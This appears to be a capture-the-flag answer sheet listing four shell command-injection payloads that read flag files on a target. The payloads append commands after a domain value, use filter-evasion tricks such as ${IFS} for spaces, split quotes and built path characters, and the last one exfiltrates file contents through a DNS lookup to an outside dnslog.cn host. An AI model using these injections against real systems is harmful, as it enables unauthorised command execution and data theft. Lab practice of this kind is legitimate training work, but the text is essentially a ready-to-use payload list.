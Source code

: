 
task 0 = google.com;cat 0-flag.txt
task 1 = google.com;c"a"t${IFS}/etc/1-flag.txt
task 2 = google.com;bash${IFS}-c${IFS}'echo${IFS}$(cat${IFS}${HOME:0:1}var${HOME:0:1}2-flag.txt)'
task 3 = google.com;nslookup${IFS}$(cat${IFS}/var/www/3-flag.txt).zwwv0v.dnslog.cn
